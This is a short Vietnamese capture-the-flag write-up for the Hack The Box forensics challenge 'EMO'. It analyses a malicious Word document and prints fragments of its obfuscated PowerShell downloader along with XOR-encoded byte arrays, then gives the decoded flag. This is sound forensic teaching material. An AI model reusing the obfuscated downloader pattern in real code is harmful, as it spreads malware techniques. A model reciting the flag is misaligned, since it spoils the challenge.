

# EMO-Hack The Box(Forensics)

**Độ khó:** Easy

---

##1. Giới thiệu challenge
- 1 file word được tìm thấy 

##2. Mục tiêu
-Tìm flag trong file word đó

##3. Phương pháp giải
Bước 1. Phân tích file Doc

- Vào app.any.run và phân tích file ta được

-chú ý vào đoạn mã sau:

- Dán nó vào powershell ta có

Bước 2. Tìm flag
 ta thấy có những đoạn mã số lặp lại kí tự FN5ggmsH
 
 $FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139);
;$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

- Ngoài ra còn có câu lệnh sau:
{try{$Odb3hf3."dO`WnLOA`dfILe"($A8i3ke1, $Scusbkj);$Zhcnaux=(('Ek'+'k')+('j'+'47t'));If ((&('Get-I'+'te'+'m') $Scusbkj)."LEn`GTh" -ge 45199) {${A8`I`3KE1}.("{1}{2}{0}" -f'ay','ToCha','rArr').Invoke() | .("{2}{1}{0}{3}" -f'-','ach','ForE','Object') -process { ${FN5`GGm`Sh} += ([byte][char]${_} -bxor 0xdf ) }

- để ý có FN5ggmsH += bytechar - bxor 0xdf
- vào https://gchq.github.io/CyberChef/ để decode dãy số đó

để xor là 0xdf như trong ảnh
ta sẽ có flag 
flag:HTB{4n0th3R_d4Y_AnoThEr_pH1Sh}

##4. Kết luận bài học
- Challenge giúp ta hiểu rằng file Word có thể chứa mã độc 
- Việc phân tích hành vi trên any.run và nhận diện cơ chế XOR trong PowerShell là chìa khóa để giải mã dữ liệu ẩn.

